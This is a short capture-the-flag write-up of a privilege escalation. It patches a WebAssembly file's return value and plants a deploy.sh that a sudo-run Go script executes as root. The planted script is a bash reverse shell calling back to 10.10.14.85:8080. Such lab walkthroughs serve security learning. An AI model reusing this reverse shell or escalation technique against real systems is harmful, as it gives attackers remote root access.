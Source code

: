 The script run, as root, `deploy.sh` if `f` is not 1. So i need:
1) to change the value of `f`
2) insert a revshell in `deploy.sh`

###### 1) change f value
The script read the webassembly file (`main.wasm`), load the function `info` and save the content of info in `f`. I need to edit the value of `f` inside the function `info`(the function info is inside main.wasm). For this i converted the webassembly file in a webassembly text format (wat) with the [wabt](https://github.com/WebAssembly/wabt) utility.

Convert in `wat`
> wasm2wat main.wasm > t.wat

edit `const 0` in `const 1` 
```wasm
(module
  (type $t0 (func (result i32)))
  (func $info (export "info") (type $t0) (result i32)
    (i32.const 0))     ---> change with 1
  (table $T0 1 1 funcref)
  (memory $memory (export "memory") 16)
  (global $g0 (mut i32) (i32.const 1048576))
  (global $__data_end (export "__data_end") i32 (i32.const 1048576))
  (global $__heap_base (export "__heap_base") i32 (i32.const 1048576)))
```

and convert in `wasm`

> wat2wasm t.wat > main.wasm


###### 2) deploy.sh

The `index.go` not check the path for `deploy.sh` so i can just create a my own file.

> cd shm
> mkdir t

and create `deploy.sh` file

```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.85/8080 0>&1'
```

I ran `sudo /usr/bin/go run /opt/wasm-functions/index.go` and got revshell as root

<img src="./img/root.png"  width="650"/>

and grabbed the flag

<img src="./img/rootflag.png"  width="650"/>
